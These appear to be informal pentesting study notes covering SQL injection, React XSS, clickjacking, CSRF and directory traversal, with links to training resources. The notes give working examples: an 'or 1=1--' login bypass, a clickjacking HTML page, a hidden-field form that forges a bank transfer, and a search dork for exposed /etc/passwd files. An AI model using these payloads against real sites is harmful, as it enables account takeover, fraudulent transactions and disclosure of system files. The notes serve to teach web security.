 # Pentesting

## Useful Links

[G's bughunter university](https://sites.google.com/site/bughunteruniversity/nonvuln)  
[Bug Bounty Forum](https://bugbountyforum.com/)  
[Cibrary](https://www.cybrary.it/)  
[HackerOne - Resources for new hackers](https://www.hackerone.com/blog/resources-for-new-hackers)  
[HackerOne - Hacker101](https://www.hackerone.com/hacker101)  
[Damn Vulnerable Web Application - DVWA](http://www.dvwa.co.uk/)  
[Hacksplaining - Security training for developers](https://www.hacksplaining.com/)  
[Varonis - Web Security Fundamentals](https://info.varonis.com/web-security-fundamentals)  
[Hacker101.com - Free web class for web security](https://www.hacker101.com)  
[READ THIS BOOK](https://leanpub.com/web-hacking-101)  

## Stuff

#### Very Basic SQLi

1. App accepts a form for username and password and runs SQL in some form.
1. Enter "password" as password, obv fails.
1. Enter "password`". If app crashes, it may be vulnerable.
1. Enter ' or 1=1--' as password. The "--" flag tells SQL to ignore the rest of the statement.

Further explanation: https://www.hacksplaining.com/prevention/sql-injection  
Code samples: https://www.hacksplaining.com/prevention/sql-injection#code-samples  

#### NoSQL Injection

[OWASP](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)  
[Blind](https://www.dailysecurity.fr/nosql-injections-classique-blind/)  

#### React Apps 

[Medium - Exploiting Script Injection Flaws in ReactJS Apps](https://medium.com/dailyjs/exploiting-script-injection-flaws-in-reactjs-883fb1fe36c1)  
[Medium - The Most Common XSS Vulnerability in React.js Applications](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)  

> By default, React DOM escapes any values embedded in JSX before rendering them. Thus it ensures that you can never inject anything that’s not explicitly written in your application. Everything is converted to a string before being rendered. This helps prevent XSS (cross-site-scripting) attacks.

> By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:

```
Content-Security-Policy: script-src 'self' https://apis.google.com
```

#### Clickjacking

An attacker iframes a webpage in a similar domain in order to trick the user.  
Basically, the iframe has a transparent div on top that will redirect to whatever place the attacker wants.

Code snippet:

```html
<html>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="www.kittens.com/vacuum-revenge">
    </iframe>
    <div>
      <a href="https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fwww.buttholebalm.com&p[title]=Itchy"></a>
    </div>
  </body>
</html>
```

#### CRSF Cross-Site Request Forgery

Imagine a site that accept posts from users via a GET request. Bob posts "I love burgers", so the request would look like:

```
GET http://examplecrappysite.com/post?text="I%20love%20burgers"
```

Now imagine Alice knows this, and knows Bob's email. She sends and email to him with the following text:

```
Look at this kitty fighting the vacuum cleaner in the CUTEST way! bit.ly/MALICIOUS_LINK 
```

YES. Malicious link is, indeed, malicious; and covers the following URL:

```
http://examplecrappysite.com/post?text="Look+at+this+kitty+fighting+the+vacuum+cleaner+in+the+CUTEST+way%21+bit.ly%2FMALICIOUS_LINK"
```

If Bob is logged in EXAMPLECRAPPYSITE, clicking the link will trigger a new post on his behalf:

```
Bob says: Look at this kitty fighting the vacuum cleaner in the CUTEST way! bit.ly/MALICIOUS_LINK 
```

If other users keep clicking that link, they will also trigger the action and the post will keep spreading.

_This can also be triggered in POST requests:_

[OWASP - CRSF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)):  

> Applications can be developed to only accept POST requests for the execution of business logic. The misconception is that since the attacker cannot construct a malicious link, a CSRF attack cannot be executed. Unfortunately, this logic is incorrect. There are numerous methods in which an attacker can trick a victim into submitting a forged POST request, such as a simple form hosted in an attacker's Website with hidden values. This form can be triggered automatically by JavaScript or can be triggered by the victim who thinks the form will do something else.

Imagine a banking site named BANKING. BANKING uses (as almost everyone) post requests to commit actions on behalf of their users. An example of a transaction form would look like this:

```html
<form action="http://api.banking.com/transaction" method="post">
    Quantity: <input type="text"></br>
    To Account: <input type="text"></br>
</form>
```

This form accepts a quantity to transfer to another account. So far so good.

Now, there's a new site called WHENWILLIDIE that accepts your name and your age and outputs your death date (SPOOKY). The form where users input their data looks like this:

```html
<form action="http://api.banking.com/transaction" method="post">
    Your name: <input type="text"><br>
    Your age: <input type="text"><br>
    <input type="submit">
    <input type="hidden" name="quantity" value="1000">
    <input type="hidden" name="toaccount" value="12345678">
</form>
```

When the user inputs their name and age, the site will secretly submit a from to api.banking.com to create a new transaction request, to account 12345678 for an ammount of 1000 (of whatever currency). If the user is still logged in after their last session, the request will go through.

#### Directory Traversal

[Hacker Noon - The Power of Directory Traversal](https://hackernoon.com/the-power-of-directory-traversal-93e8dfd608ef)  
[OWASP - Path Traversal](https://www.owasp.org/index.php/Path_Traversal)  

>A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).
This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”.

Dork:

```
inurl:../etc/passwd -intext:etc root:x
```